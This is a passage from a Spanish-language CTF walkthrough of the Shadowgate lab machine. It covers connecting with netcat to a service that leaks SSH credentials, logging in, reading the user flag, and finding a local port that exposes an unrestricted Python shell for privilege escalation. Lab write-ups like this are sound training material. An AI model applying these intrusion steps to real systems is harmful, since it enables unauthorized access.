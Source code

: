 de todos modos ya no nos sirve la ruta porque el script hizo lo único que teníamos que hacer con la ruta.

Ahora si volvemos a conectarnos al puerto 56789 nos dice lo siguiente:

```css
❯ nc 192.168.56.20 56789
Shadow Gate v1.0 :: Not all doors are locked. Some wait for n0cturne. Listen closely—patterns hide in the noise. Sequence always matters.
Shadow Gate v1.0 :: Not all doors are locked. Some wait for n0cturne. Listen closely—patterns hide in the noise. Sequence always matters.
SSH login for user mars
mars:sshpassword123
Connection closing...
```

# Intrusión

Ahora simplemente nos conectamos a la máquina usando las credenciales `mars:sshpassword123`

# Escalada de Privilegios

## Mars

Estando dentro podemos leer la flag de user:

```css
mars@TheHackersLabs-Shadowgate:~$ cat user.txt
********************************
mars@TheHackersLabs-Shadowgate:~$ 
```

Si recordamos el mensaje de `/verify`, decía algo de servicio activo y si revisamos los puertos abiertos desde la máquina vemos que el puerto 4444 está abierto:

```css
mars@TheHackersLabs-Shadowgate:~$ ss -tulun
Netid            State             Recv-Q            Send-Q                              Local Address:Port                          Peer Address:Port            Process            
tcp              LISTEN            0                 5                                       127.0.0.1:4444                               0.0.0.0:*                   
mars@TheHackersLabs-Shadowgate:~$ 
```

si nos conectamos desde la propia máquina usando netcat, veremos que nos imprime un `>>>`, que es el mismo prompt que al ejecutar `python3`:

```css
mars@TheHackersLabs-Shadowgate:~$ nc 127.0.0.1 4444
Welcome to Shadow Client Helper
This is an unrestricted environment. Good luck, hacker.
>>> 
mars@TheHackersLabs-Shadowgate:~$ python3
Python 3.12.3 (main, Feb  4 2025, 14:48:35) [GCC 13.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 
mars@TheHackersLabs-Shadowgate:~$ 
```
